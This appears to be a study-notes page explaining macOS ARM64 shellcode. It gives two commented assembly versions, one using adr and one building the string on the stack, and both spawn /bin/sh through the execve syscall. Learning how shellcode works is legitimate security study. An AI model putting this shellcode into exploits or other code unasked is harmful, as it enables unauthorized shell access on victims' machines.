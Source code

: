 ```
Taken from [[https://github.com/daem0nc0re/macOS_ARM64_Shellcode/blob/master/shell.s|**here**]] and explained.

**with adr**

```armasm
.section __TEXT,__text ; This directive tells the assembler to place the following code in the __text section of the __TEXT segment.
.global _main         ; This makes the _main label globally visible, so that the linker can find it as the entry point of the program.
.align 2              ; This directive tells the assembler to align the start of the _main function to the next 4-byte boundary (2^2 = 4).

_main:
    adr  x0, sh_path  ; This is the address of "/bin/sh".
    mov  x1, xzr      ; Clear x1, because we need to pass NULL as the second argument to execve.
    mov  x2, xzr      ; Clear x2, because we need to pass NULL as the third argument to execve.
    mov  x16, #59     ; Move the execve syscall number (59) into x16.
    svc  #0x1337      ; Make the syscall. The number 0x1337 doesn't actually matter, because the svc instruction always triggers a supervisor call, and the exact action is determined by the value in x16.

sh_path: .asciz "/bin/sh"
```
```

**with stack**

```armasm
.section __TEXT,__text ; This directive tells the assembler to place the following code in the __text section of the __TEXT segment.
.global _main         ; This makes the _main label globally visible, so that the linker can find it as the entry point of the program.
.align 2              ; This directive tells the assembler to align the start of the _main function to the next 4-byte boundary (2^2 = 4).

_main:
    ; We are going to build the string "/bin/sh" and place it on the stack.

    mov  x1, #0x622F  ; Move the lower half of "/bi" into x1. 0x62 = 'b', 0x2F = '/'.
    movk x1, #0x6E69, lsl #16 ; Move the next half of "/bin" into x1, shifted left by 16. 0x6E = 'n', 0x69 = 'i'.
    movk x1, #0x732F, lsl #32 ; Move the first half of "/sh" into x1, shifted left by 32. 0x73 = 's', 0x2F = '/'.
    movk x1, #0x68, lsl #48   ; Move the last part of "/sh" into x1, shifted left by 48. 0x68 = 'h'.

    str  x1, [sp, #-8] ; Store the value of x1 (the "/bin/sh" string) at the location `sp - 8.

    ; Prepare arguments for the execve syscall.

    mov  x1, #8       ; Set x1 to 8.
    sub  x0, sp, x1   ; Subtract x1 (8) from the stack pointer (sp) and store the result in x0. This is the address of "/bin/sh" string on the stack.
    mov  x1, xzr      ; Clear x1, because we need to pass NULL as the second argument to execve.
    mov  x2, xzr      ; Clear x2, because we need to pass NULL as the third argument to execve.

    ; Make the syscall.

    mov  x16, #59     ; Move the execve syscall number (59) into x16.
    svc  #0x1337      ; Make the syscall. The number 0x1337 doesn't actually matter, because the svc instruction always triggers a supervisor call, and the exact action is determined by the value in x16.

```